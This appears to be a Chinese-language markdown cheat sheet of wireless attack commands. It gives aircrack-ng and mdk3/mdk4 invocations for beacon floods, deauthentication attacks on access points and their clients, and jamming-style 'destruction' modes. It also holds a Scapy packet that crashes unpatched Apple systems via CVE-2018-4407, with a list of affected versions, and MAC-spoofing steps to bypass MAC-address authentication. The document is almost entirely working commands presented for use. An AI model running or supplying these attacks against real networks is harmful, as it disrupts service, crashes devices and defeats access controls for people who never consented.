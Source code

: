  #### Beacon flood
	需切换网卡为监听模式
	>airmon-ng start wlan1
	创建大量虚假热点Mdk3 mon0 b
	>mdk3 wlan1mon b -f /root/wifi.txt -a -s 1500
  #### Deauth flood
	针对AP
	>airmon-ng start wlan1
	>aireplay-ng –deauth 10 –a AP's mac address mon0
	针对AP内设备
	>airmon-ng start wlan1       将网卡置为监听模式
	>airodump-ng wlan1mon –bssid 目标ap的ssid
	>aireplay-ng -0 0 -a ap的ssid -c AP的ssid wlan0mon 开始攻击
  #### Mdk3 destruction
	针对范围内
	>mdk3 wlan1mon d
	针对AP
	>airodump-ng wlan1mon
	>mdk3 wlan1mon a -a APmac 发起攻击
	黑名单
	>mdk3 wlan1mon d –c 信道 –b /blacklist.txt.
	>mdk3 wlan1mon  b -n test -w -g -c 1 -s 200
  #### WiFi芯片esp8266
  #### Mdk4
	>mdk4 wlan0mon d
  #### CVE-2018-4407
	Scapy
	send(IP(dst="192.168.1.132",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))
	Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）
	Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）
	Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）
	Apple OS X El Capitan及更早版本：所有设备
  #### 绕过mac地址认证
  ##### Ifconfig
	>ifconfig wlan1 down
	>ifconfig wlan1 hw ether xx:xx:xx:xx:xx:xx
	>ifconfig wlan1 up
  ##### Macchanger
	>macchanger –m xx:xx:xx:xx:xx:xx wlan1
	>macchanger –r wlan1